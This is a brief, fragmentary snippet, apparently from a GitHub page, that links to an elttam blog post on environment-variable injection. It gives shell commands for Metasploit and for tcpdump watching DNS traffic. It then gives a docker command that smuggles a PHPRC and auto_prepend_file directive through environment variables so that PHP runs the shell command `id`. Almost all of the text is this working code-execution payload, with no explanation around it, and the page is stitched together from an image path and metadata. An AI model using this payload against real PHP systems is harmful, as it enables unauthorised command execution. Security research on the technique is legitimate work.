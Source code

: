 x
-

[see](https://www.elttam.com/blog/env/)

````sh
msfconsole
tcpdump -i eth0 -n udp port 53

````

````sh
docker run -e $'HOSTNAME=1;\nauto_prepend_file=/proc/self/environ\n;<?php die(`id`); ?>' \
  -e 'PHPRC=/proc/self/environ' php:7.3 php /dev/null
````
